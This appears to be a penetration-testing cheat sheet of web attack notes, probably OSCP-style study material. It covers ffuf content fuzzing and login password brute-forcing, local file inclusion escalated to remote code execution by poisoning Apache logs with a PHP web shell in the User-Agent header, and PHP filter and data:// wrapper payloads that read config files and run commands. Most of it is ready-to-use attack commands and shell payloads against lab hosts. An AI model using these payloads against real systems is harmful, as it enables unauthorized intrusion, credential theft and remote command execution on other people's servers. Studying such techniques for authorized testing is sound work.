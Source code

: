 4. finally you can also fuzz the discovered content or anything else within head or requests

`ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://ip/FUZZ` (FUZZ keyword is there where you want to fuzz)

Fuzzing for POST requests

`ffuf -w passwords.txt -u http://192.168.123.52/login.php -H "Content-Type: application/x-www-form-urlencoded" -H "DNT: 1" -H "Upgrade-Insecure-Requests: 1" -d "username=admin&password=FUZZ&debug=0" -H "User-Agent: Fool"  -fr "Failed"`

# Other Web Attacks

## LFI

* detect directory traversal and attempt LFI to get RCE!
* LFI allows executing files (not reading!)
* modify and contaminate some log file
* use LFI to trigger contaminated file

1. Contaminate Logs modifying the request header

`User-Agent: <?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?> `

or 

`User-Agent: <?php echo system($_GET['cmd']); ?>`

2. send request to poison

http://10.11.0.xx/

3. access these logs externally (xampp on windows in this case) but without the poisoned header to execute it

`http://10.11.0.xx/menu.php?file=../../../../../../../var/log/apache2/access.log&cmd=whoami`


### PHP wrappers

Use wrappers to bypass filters.

```bash

# lets access LFI and encode the output as base64

curl http://localhost/index.php?page=php://filter/convert.base64-encode/resource=config.php

# decode base64

echo $b64_output | base64 -d

# also possible to achieve RCE

# 1. encode payload 

echo -n '<?php echo system($_GET["cmd"]);?>' | base64
PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==

# 2. use wrapper

curl "http://localhost/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"
```
